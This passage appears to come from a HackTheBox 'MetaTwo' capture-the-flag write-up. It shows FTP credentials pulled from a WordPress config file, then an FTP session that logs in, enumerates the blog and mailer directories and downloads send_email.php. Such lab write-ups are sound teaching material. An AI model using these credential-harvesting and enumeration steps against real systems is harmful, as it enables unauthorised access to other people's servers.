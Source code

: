 ```
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

Here, I got back ftp credentials `metapress.htb:9NYS_ii@FyL_p5M2NvJ`

Using these credentials, I was able to log into the ftp server where there were two directories, `blog` & `mailer`

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ ftp metapress.htb                                                                   
Connected to metapress.htb.
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
Name (metapress.htb:darshan): metapress.htb
331 Password required for metapress.htb
Password: 
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||7571|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5 14:12 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5 14:12 mailer
226 Transfer complete
```

On Further enumeration, I found `send_email.php` inside `mailer` directory.

```
ftp> cd mailer
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||24755|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5 14:12 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
226 Transfer complete
ftp> wget send_email.php
?Invalid command.
ftp> mget send_email.php
mget send_email.php [anpqy?]? y
229 Entering Extended Passive Mode (|||34699|)
150 Opening BINARY mode data connection for send_email.php (1126 bytes)
100% |******************************************************************************************************************************************************************************************************************|  1126       20.65 MiB/s    00:00 ETA226 Transfer complete
1126 bytes received in 00:00 (8.84 KiB/s)
```

